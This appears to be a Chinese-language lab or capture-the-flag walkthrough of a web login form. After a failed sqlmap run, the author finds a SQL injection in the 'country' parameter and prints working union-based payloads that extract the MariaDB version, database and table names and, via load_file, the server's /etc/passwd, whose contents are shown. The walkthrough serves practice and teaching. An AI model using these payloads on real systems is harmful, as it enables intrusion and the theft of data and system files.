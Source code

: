 ```
[09:36:50] [WARNING] heuristic (basic) test shows that POST parameter 'username' might not be injectable
[09:36:50] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
there seems to be a continuous problem with connection to the target. Are you sure that you want to continue? [y/N] N
[09:36:51] [WARNING] your sqlmap version is outdated

[*] ending @ 09:36:51 /2021-11-29/

```


失败了。。。

经过手动测试，发现country这个参数其实是存在sql注入的，我们尝试用下面payload

> username=max&country=Andorra' 

结果报错了

> Fatal error: Uncaught Error: Call to a member function fetch_assoc() on bool in /var/www/html/account.php:33 Stack trace: #0 {main} thrown in /var/www/html/account.php on line 33

说明我们加的引号被当成了sql执行。


获得mysql版本
> username=max&country=Andorra' union select @@version -- -

返回：10.5.11-MariaDB-1


获得当前数据库名称：
> username=max&country=Andorra' union select database() -- -

返回：registration


获得当前库的所有表，表所有的库，表的行数和表的功能注释
> username=max&country=Andorra' union select concat( table_schema,char(10),table_name,char(10),table_rows,char(10),table_comment,char(10)) from information_schema.tables where table_schema=database() -- -

返回：registration registration 30 


数据库的使用者 : uhc@localhost
数据库安装路径：/var/lib/mysql/

查看/etc/passwd
> username=max&country=Andorra' union select load_file("/etc/passwd")-- -
```
root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
bin:x:2:2:bin:/bin:/usr/sbin/nologin 
sys:x:3:3:sys:/dev:/usr/sbin/nologin 
sync:x:4:65534:sync:/bin:/bin/sync 
games:x:5:60:games:/usr/games:/usr/sbin/nologin 
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin 
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin 
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin 
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin 
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin 
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin 
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin 
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin 
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin 
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin 
gnats:x:41:41:Gnats Bug-Reporting 
System (admin):/var/lib/gnats:/usr/sbin/nologin 
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin 
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin 
```